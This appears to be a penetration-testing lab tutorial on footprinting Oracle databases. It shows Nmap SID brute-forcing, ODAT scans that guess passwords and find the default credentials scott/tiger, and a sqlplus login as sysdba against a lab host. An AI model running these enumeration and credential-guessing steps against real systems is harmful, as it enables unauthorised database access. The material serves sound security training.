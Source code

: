 ## Footprinting
In Oracle RDBMS, a System Identifier (SID) is a unique name that identifies a particular database instance. It can have multiple instances, each with its own System ID. An instance is a set of processes and memory structures that interact to manage the database's data. When a client connects to an Oracle database, it specifies the database's SID along with its connection string. The client uses this SID to identify which database instance it wants to connect to. Suppose the client does not specify a SID. Then, the default value defined in the tnsnames.ora file is used.
### Nmap - SID bruteforcing
```
$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 11:01 EST
Nmap scan report for 10.129.204.235
Host is up (0.0044s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
| oracle-sid-brute: 
|_  XE
```
### ODAT
We can use the `odat.py` tool to perform a variety of scans to enumerate and gather information about the Oracle database services and its components. Those scans can retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations, etc.
```
$ ./odat.py all -s 10.129.204.235

[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...
```
In this example, we found valid credentials for the user scott and his password tiger. After that, we can use the tool sqlplus to connect to the Oracle database and interact with it.
### SQLplus - Log in
```
$ sqlplus scott/tiger@10.129.204.235/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:19:21 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days



Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 
```